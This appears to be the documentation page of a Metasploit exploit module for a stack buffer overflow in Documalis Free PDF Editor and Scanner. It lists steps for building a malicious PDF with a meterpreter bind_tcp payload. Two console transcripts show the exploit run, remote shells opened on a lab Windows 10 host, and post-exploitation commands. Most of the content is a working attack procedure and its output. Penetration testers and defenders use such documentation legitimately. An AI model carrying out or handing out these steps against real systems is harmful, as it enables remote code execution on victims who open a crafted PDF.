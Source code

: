 ## Vulnerable Application

  Documalis Free PDF Editor version 5.7.2.26 and Documalis Free PDF Scanner version 5.7.2.122 do not appropriately
  validate the contents of JPEG images contained within a PDF. Attackers can exploit this vulnerability to trigger
  a buffer overflow on the stack and gain remote code execution as the user running the Documalis Free PDF
  Editor or Documalis Free PDF Scanner software.

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/documalis_pdf_editor_and_scanner`
   4. Do: `set TARGET 0` for Documalis Free PDF Editor or `set TARGET 1` for Documalis Free PDF Scanner
   5. Do: `set payload windows/meterpreter/bind_tcp`
   6. Do: `set RHOST [Target IP]`
   7. Do: `set LPORT [Port to make the target host listen on]`
   9. Do: `run`
   10. Do: `use exploit/multi/handler`
   11. Do: `set payload windows/meterpreter/bind_tcp`
   12. Do: `set RHOST [Target IP]`
   13. Do: `set LPORT [Same port as before, this will be the port the target is listening on]`
   13. Do: `run`
   14. Copy the generated file to the target machine
   15. For Documalis Free PDF Editor, drag and drop the PDF to open it. For Documalis Free PDF Scanner, select the Add
       button on the right side of the screen and then select the malicious PDF file from the file prompt.
   16. You should get a shell as the user running either Documalis Free PDF Scanner or Documalis Free PDF
       Editor (depending on which software was exploited).

## Options
  **FILENAME**
  Name of the PDF file that Metasploit will generate. This will default to "msf.pdf", but can be changed.

## Scenarios

### Documalis Free PDF Editor v5.7.2.26 on Windows 10 x64 v2004
```
msf > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set TARGET 0
TARGET => 0
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set LPORT 6655
LPORT => 6655
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show options

Module options (exploit/windows/fileformat/documalis_pdf_editor_and_scanner):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FILENAME          msf.pdf          no        The file name.
   PDF::Encoder      ASCIIHEX         yes       Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX
   PDF::Method       DOCUMENT         yes       Select PAGE, DOCUMENT, or ANNOTATION
   PDF::MultiFilter  1                yes       Stack multiple encodings n times
   PDF::Obfuscate    true             yes       Whether or not we should obfuscate the output


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     6655             yes       The listen port
   RHOST     172.26.215.55    no        The target address

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Documalis Free PDF Editor v.5.7.2.26 / Win 7, Win 10

msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit

[+] msf.pdf stored at /home/gwillcox/.msf4/local/msf.pdf
[*] Started bind TCP handler against 172.26.215.55:6655
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(multi/handler) > set LPORT 6655
LPORT => 6655
msf exploit(multi/handler) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.215.55:6655
[*] Sending stage (176195 bytes) to 172.26.215.55
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.26.215.55:6655) at 2020-07-31 17:05:06 -0500

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### Documalis Free PDF Scanner v5.7.2.122 on Windows 10 x64 v2004
```
msf > use exploit/windows/fileformat/documalis_pdf_editor_and_scanner
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set TARGET 1
TARGET => 1
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > set LPORT 7788
LPORT => 7788
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > show options

Module options (exploit/windows/fileformat/documalis_pdf_editor_and_scanner):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FILENAME          msf.pdf          no        The file name.
   PDF::Encoder      ASCIIHEX         yes       Select encoder for JavaScript Stream, valid values are ASCII85, FLATE, and ASCIIHEX
   PDF::Method       DOCUMENT         yes       Select PAGE, DOCUMENT, or ANNOTATION
   PDF::MultiFilter  1                yes       Stack multiple encodings n times
   PDF::Obfuscate    true             yes       Whether or not we should obfuscate the output


Payload options (windows/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     7788             yes       The listen port
   RHOST     172.26.215.55    no        The target address

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   1   Documalis Free PDF Scanner v.5.7.2.122 / Win 7, Win 10


msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > exploit

[+] msf.pdf stored at /home/gwillcox/.msf4/local/msf.pdf
[*] Started bind TCP handler against 172.26.215.55:7788
msf exploit(windows/fileformat/documalis_pdf_editor_and_scanner) > use multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(multi/handler) > set RHOST 172.26.215.55
RHOST => 172.26.215.55
msf exploit(multi/handler) > set LPORT 7788
LPORT => 7788
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.26.215.55:7788
[*] Sending stage (176195 bytes) to 172.26.215.55
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.26.215.55:7788) at 2020-07-31 17:31:35 -0500

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```
